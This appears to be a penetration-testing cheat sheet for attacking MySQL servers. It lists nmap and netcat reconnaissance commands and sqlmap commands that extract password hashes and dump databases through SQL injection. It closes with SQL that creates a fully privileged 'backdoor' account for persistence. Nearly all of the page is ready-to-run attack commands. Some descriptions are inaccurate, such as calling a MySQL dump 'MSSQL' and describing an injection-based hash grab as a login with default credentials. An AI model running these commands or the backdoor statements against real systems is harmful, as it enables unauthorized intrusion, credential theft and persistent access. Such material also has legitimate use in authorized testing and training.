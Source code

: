 ### External Reconnaissance

#### Port Scanning

*   **Tool:** \[\[Nmap]]

    ```bash
    nmap <target_ip> -p 3306
    ```
* **Description:** Identifies if the target service is running on the target by scanning target port.

#### Service Enumeration

*   **Tool:** \[\[NetCat]]

    ```bash
    nc <target_ip> 3306
    ```
* **Description:** Retrieves the service banner to identify the software version and potential vulnerabilities.

### Initial Access

#### Exploiting Default Credentials

*   **Tool:** \[\[SQLMap Cheat Sheet]]

    ```bash
    sqlmap -u "http://<target_ip>/vulnerable.php?id=1" --dbms=mysql --batch --passwords
    ```
* **Description:** Attempts to log in using default or weak credentials to gain access to the MySQL database.

#### Exploiting SQL Injection

*   **Tool:** \[\[SQLMap Cheat Sheet]]

    ```bash
    sqlmap -u "http://<target_ip>/vulnerable_page.php?id=1" --dbms=mysql --dump
    ```
* **Description:** Exploits SQL Injection vulnerabilities to extract data from MSSQL databases.

### Persistence

#### Create a SQL User Account

*   **Tool:** \[\[MySQL]]

    ```sql
    CREATE USER 'backdoor'@'%' IDENTIFIED BY 'password';
    GRANT ALL PRIVILEGES ON *.* TO 'backdoor'@'%';
    ```
* **Description:** Creates a new user with full privileges that can be used to maintain access to the database.
